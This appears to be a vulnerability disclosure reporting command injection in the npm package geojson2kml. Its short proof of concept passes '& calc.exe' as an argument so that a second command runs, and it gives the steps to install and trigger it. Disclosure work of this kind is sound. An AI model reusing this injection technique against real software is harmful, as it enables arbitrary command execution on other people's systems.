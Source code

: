 # Description

`geojson2kml` is vulnerable to `Command Injection`.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a =require("geojson2kml");
a("./","& calc.exe",function(){})

```
2. Execute the following commands in another terminal:

```
npm i geojson2kml # Install affected module
node poc.js #  Run the PoC
```
3. On execution, windows application "calc.exe" will get open.
